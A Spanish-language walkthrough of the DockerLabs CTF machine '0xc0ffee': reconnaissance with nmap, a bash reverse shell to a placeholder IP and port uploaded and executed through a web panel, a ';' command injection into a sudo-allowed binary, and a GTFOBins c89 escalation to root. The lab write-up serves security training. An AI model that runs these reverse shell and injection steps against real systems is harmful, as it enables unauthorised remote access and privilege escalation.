 # 0xc0ffee

Máquina "0xc0ffee" de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Medio

![0xc0ffee](./images/0xc0ffee/img/0xc0ffee.png)

## RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Wed Sep  4 18:55:41 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000014s latency).
Scanned at 2024-09-04 18:55:42 -03 for 18s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Security Verification Tool
7777/tcp open  http    syn-ack ttl 64 SimpleHTTPServer 0.6 (Python 3.12.3)
|_http-title: Directory listing for /
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: SimpleHTTP/0.6 Python/3.12.3
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  4 18:56:00 2024 -- 1 IP address (1 host up) scanned in 18.57 seconds
```

Como vemos está el puerto `80` abierto y el `7777` también corriendo un servidor en python.

**Puerto 80:**

![80](./images/0xc0ffee/img/80.png)

Como vemos es una página que nos pide una contraseña, pero como no la tenemos la dejaremos de lado.

**Puerto 7777:**

![7777](./images/0xc0ffee/img/7777.png)

Como vemos es lo mismo que ejecutar `python3 -m http.server <puerto>` (literalmente igual), por lo que no podemos subir nada y la mayoria de las cosas nos las descarga, excepto los ".txt". Si vamos a `/secret/` veremos un archivo ".txt" que tiene una historia:

```css
En los albores del siglo XXI, España se encontraba en medio de una revolución tecnológica, donde las sombras de los servidores y el resplandor de las pantallas digitales eran el campo de batalla para los más astutos y habilidosos. Entre ellos, había un nombre que resonaba con reverencia y misterio: Álvaro López. Conocido en la comunidad cibernética como “El Fantasma de Madrid”, Álvaro era considerado el mejor hacker de España, y su habilidad para penetrar los sistemas más seguros era casi legendaria.

Álvaro comenzó su andanza en el mundo de la ciberseguridad desde una edad temprana. Lo que comenzó como un simple interés en la informática se transformó en una pasión por desentrañar los secretos más ocultos de las redes y sistemas de seguridad. Su habilidad para encontrar vulnerabilidades en sistemas aparentemente impenetrables le ganó una reputación que se extendía más allá de las fronteras de España.

Uno de los incidentes más notorios en la carrera de Álvaro ocurrió cuando se enfrentó a uno de los desafíos más complejos de su vida. Un banco internacional de renombre, conocido por su nivel extremo de seguridad, había sido blanco de un ataque, y el misterio giraba en torno a un archivo encriptado con la etiqueta "super_secure_password". Este archivo contenía información crítica sobre las transacciones de alto valor, y su protección era de máxima prioridad.

El banco había desplegado una red de seguridad impenetrable, con capas de cifrado y autenticación de múltiples factores, lo que hizo que el reto fuera aún más emocionante para Álvaro. Tras semanas de investigación y análisis de los sistemas, el Fantasma de Madrid descubrió una pequeña pero crítica vulnerabilidad en el protocolo de encriptación utilizado. Con una mezcla de astucia y técnica avanzada, pudo realizar un ataque sofisticado que permitió descifrar el contenido protegido bajo el "super_secure_password".

Sin embargo, el talento de Álvaro no radicaba solo en su capacidad para hackear sistemas; también era un maestro en la ética de la ciberseguridad. En lugar de utilizar la información para sus propios fines, utilizó su acceso para alertar al banco sobre las fallas en su sistema y proporcionar recomendaciones para mejorar la seguridad. Su acto no solo demostró su habilidad técnica, sino también su integridad y compromiso con la seguridad digital.

La hazaña de Álvaro López pronto se convirtió en una leyenda en el mundo de la ciberseguridad. El banco, agradecido por su valiosa contribución, lo recompensó generosamente y lo invitó a colaborar en la mejora de sus sistemas de seguridad. La historia de El Fantasma de Madrid se convirtió en un ejemplo de cómo la habilidad y la ética pueden coexistir en el mundo del hacking.

Con el tiempo, Álvaro siguió influyendo en el campo de la ciberseguridad, ofreciendo conferencias y talleres sobre la importancia de la protección de datos y la ética en el hacking. Su legado perduró, y su nombre se convirtió en sinónimo de excelencia en el arte de la ciberseguridad, recordado como el mejor hacker que España había conocido.
```

Ahora si nos fijamos, veremos que la historia nombra una password, la cual es "super\_secure\_password". Ahora si a esta misma la metemos en el puerto 80 que nos pedía una contraseña, podremos entrar. Una vez dentro veremos esta otra página:

![panel](./images/0xc0ffee/img/panel.png)

Al parecer nos deja crear "configuraciones" y aplicarlas, en la cual si probamos crear por ejemplo una que se llame "test.txt" y la subimos, veremos que se ha creado localmente en el puerto 7777:

![test](./images/0xc0ffee/img/testxt.png)

## INTRUSION

Sabiendo esto podemos probar en enviarnos una reverse shell y ver si nos llega.

En la página haremos un script que tenga extensión ".sh" y que contenga lo siguiente:

```css
#!/bin/bash

bash -i >& /dev/tcp/<ip>/<puerto> 0>&1
```

Luego le damos en guardar, volvemos a nuestra máquina y escuchamos con netcat en el puerto elegido:

```css
sudo nc -nlvp <puerto>
```

ahora bajamos en la página hasta donde dice "Execute Remote Configuration" y ejecutamos el script con el nombre que elegimos:

![rev](./images/0xc0ffee/img/rev.png)

## ESCALADA DE PRIVILEGIOS

#### www-data

Antes de continuar haremos el tratamiento de la tty, para hacerlo ejecutaremos estos comandos:

```css
script /dev/null -c bash # Ejecutamos y presionamos ctrl+Z
stty raw -echo;fg # Ejecutamos y luego escribimos "reset xterm" y luego enter
export TERM=xterm && export SHELL=bash
```

Ahora si nos vamos a `/home/codebad/secret`, podremos ver una adivinanza que dice lo siguiente:

```abap
Adivinanza

En el mundo digital, donde la protección es vital,
existe algo peligroso que debes evitar.
No es un virus común ni un simple error,
sino algo más sutil que trabaja con ardor.

Es el arte de lo malo, en el software es su reino,
se oculta y se disfraza, su propósito es el mismo.
No es virus, ni gusano, pero se comporta igual,
toma su nombre de algo que no es nada normal.

¿Qué soy?
```

RESPUESTA: malware.

Luego ejecutamos un `su codebad` y poner "malware" de contraseña.

### Codebad

Si ejecutamos un `sudo -l` vermos lo siguiente:

```css
Matching Defaults entries for codebad on ce1f3f7f4392:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User codebad may run the following commands on ce1f3f7f4392:
    (metadata : metadata) NOPASSWD: /home/codebad/code
```

Si intentamos leer el script, estará en un formato ilegible, pero podemos probar en ejecutarlo y ver que pasa:

![code](./images/0xc0ffee/img/code.png)

como vemos nos pide una opción, la cual si se la pasamos nos dice esto:

![ls](./images/0xc0ffee/img/ls.png)

Como vemos el script ya ejecuta un "ls", por lo que podemos intentar ejecutar el binario "bash" como el usuario metadata, para hacerlo podemos hacer uso de ";" que en linux nos permite "ejecutar dos comandos a la vez", por ej:

![;](./images/0xc0ffee/img/;.png)

como vemos al hacer uso de ";" y poner `whoami; ls`, nos ejecuta los dos a la misma vez. Ahora podemos usar esto en nuestro beneficio para escalar, para hacerlo podemos ejecutar el script de la siguiente manera:

```css
sudo -u metadata /home/codebad/code "/home/; bash"
```

Esto hará que se ejecute el binario bash y podremos escalar privilegios al usuario "metadata".

#### Metadata

Ahora si ejecutamos `sudo -l` nos pedirá contraseña, pero podemos buscar si hay algún archivo o algo que nos sirva con el nombre de "metadata" y en el mejor de los casos tenga la contraseña. Para hacerlo usaremos `find` de la siguiente manera:

```css
find / -name "meta*" 2>/dev/null
```

Luego de ejecutarlo vermos que hay un script llamado "metadatosmalos":

```css
/usr/local/bin/metadatosmalos
```

si lo leemos no tiene nada interesante pero si usamos el nombre del script como contraseña al poner `sudo -l`, veremos que es correcta y podemos ejecutar el binario `c89`, que al buscar en [GTFOBins](https://gtfobins.github.io/) veremos que podemos escalar ejecutando esto:

![c89](./images/0xc0ffee/img/c89.png)

Por lo que simplemente lo ejecutamos y ya seremos root:

![root](./images/0xc0ffee/img/root.png)

Gracias por leer.
